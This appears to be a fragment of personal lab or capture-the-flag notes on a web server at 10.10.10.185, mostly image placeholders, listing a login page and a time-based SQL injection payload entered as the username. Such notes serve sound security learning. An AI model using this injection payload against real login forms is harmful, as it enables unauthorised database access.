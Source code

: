 # Web Server on 80

![[Pasted image 20211204214801.png]]

* http://10.10.10.185/login.php
SQLi
Username:admin';WAITFOR DELAY '0:0:5'--
Pass: junk
![[Pasted image 20211204214925.png]]


